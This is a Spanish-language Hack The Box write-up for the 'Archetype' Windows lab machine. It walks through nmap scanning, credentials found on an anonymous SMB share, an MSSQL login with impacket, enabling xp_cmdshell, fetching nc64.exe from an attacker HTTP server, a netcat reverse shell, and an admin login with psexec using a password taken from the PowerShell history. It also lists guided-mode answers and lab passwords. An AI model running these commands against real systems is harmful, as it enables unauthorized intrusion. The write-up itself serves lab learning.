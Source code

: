 ```yaml
---
title: Writeup archetype - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - archetype
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina archetype en Hack The Box.
keywords:
  - writeup archetype
  - hack the box archetype
  - resolución máquina archetype
  - archetype hack the box
  - htb archetype
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+2/Windows/Archetype)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=Xz5oX2bH5VM)|[Parte2](https://www.youtube.com/watch?v=562uiR37VvA)
- 🧠 **Explicación resumida**: 

--------

#veryeasy #windows #nmap #ping #smb #netcat #impacket-mssqlclient

---
# Guided Mode

1)¿Qué puerto TCP aloja un servidor de base de datos?
	1433

2)¿Cuál es el nombre del recurso compartido no administrativo disponible a través de SMB?
	backups

3)¿Cuál es la contraseña identificada en el archivo del recurso compartido SMB?
	M3g4c0rp123

4)¿Qué script de la colección Impacket se puede utilizar para establecer una conexión autenticada a un servidor Microsoft SQL Server?
	mssqlclient.py

5)¿Qué procedimiento almacenado extendido de Microsoft SQL Server se puede utilizar para generar un intérprete de comandos de Windows?
	xp_cmdshell

6)¿Qué script se puede utilizar para buscar posibles rutas para escalar privilegios en hosts Windows?
	Winpeas

7)¿Qué archivo contiene la contraseña del administrador?
	consolehost_history.txt

---
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.217.189
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.129.217.189 -oG allports
extractPorts allports
nmap -sCV -p135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669 10.129.217.189 -oN target
```

![[Archetype1.png]]

![[Archetype2.png]]

![[Archetype3.png]]

![[Archetype4.png]]
![[Archetype5.png]]
*TTL:* Maquina windows
*Puertos relevantes:*
	`445` [[smb]]
*Datos Importantes:*
	Nos podemos conectar con el usuario guest a [[smb]]

-------
# Intrusion por [[smb]] 

```shell
smbclient -L 10.129.217.189 -p 445 -N              / Listamos los directorios
smbclient //10.129.217.189/backups -p 445 -N       / Entramos al directorio backups
```

![[Archetype7.png]]
Descargamos el archivo que esta en el directorio backups con el comando `get prod.dtsConfig` y luego lo abrimos en nuestra maquina
![[Archetype8.png]]
Nos da dos datos relevantes:
Password=M3g4c0rp123
User ID=ARCHETYPE/sql_svc

-----
# Nos conectamos a la base de datos con [[impacket-mssqlclient]]

Vamos a entablar la conexion con el comando `impacket-mssqlclient ARCHETYPE/sql_svc@10.129.217.189 -windows-auth

![[Archetype10.png]]

Vamos a chequear con el comando `SELECT is_svrolemember('sysadmin')` si somos admin, si nos da de resultado 1 es true

![[Archetype11.png]]


#### Ahora activamos el [[xp_cmdshell]]

[Cheatsheet de comandos mssql](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Vamos a activar el [[Herramientas-Comandos/Bases de datos/SQL/MSSQL/xp_cmdshell]] por que por defecto viene desactivado

```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Ahora hacemos la prueba con `xp_cmdshell "whoami"` para ver si da output
![[Archetype12.png]]
Y como podemos ver responde que somos archetype/sql_svc. Asi que ya confirmamos que esta activado el xp_cmdshell


---------

# [[Reverse shell]] para la intrusion
#### Para mandar la [[Reverse shell]] vamos a necesitar de [[Netcat]]

[Link de netcat para 64bits](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) Vamos a levantar un server de [[python3 -m http.server]] desde nuestra maquina, para que por wget lo descargue la maquina victima. Y a posteriori vamos a ponernos en escucha con  [[rlwrap nc -lvnp 443]] para la reverseshell

```shell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.16/nc64.exe -outfile nc64.exe           / Descargamos el archivo
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.16 443"                       / Mandamos la reverseshell
```

![[Archetype14.png]]
![[Archetype13.png]]

``rlwrap nc -lvnp 443``  Para estar en escucha

![[Imagenes/Archetype16.png]]
Y una vez dentro, podemos visualizar la primera flag

![[Archetype15.png]]


-------
# Escalada de privilegios con [[Logs de la powershell y de consola]]

#### Vamos a visualizar los logs de la powershell para ver si hay algun dato critico

Los logs estan en esta ruta ``C:\Users\sql_svc\appdata\roaming\microsoft\windows\powershell\psreadline``

Y al visualizar el log, vemos una contraseña
![[Archetype16.png]]
MEGACORP_4dm1n!!
#### Asi que vamos a intentar conectarnos con [[impacket-psexec]] ya que esta el servicio [[smb]]

``impacket-psexec Administrator@10.129.95.187 -port 445``
![[Archetype17.png]]
Una vez dentro ya podemos visualizar la flag
![[Archtype18.png]]

--------

--------
# Creditos
Writeup Oficial HackTheBox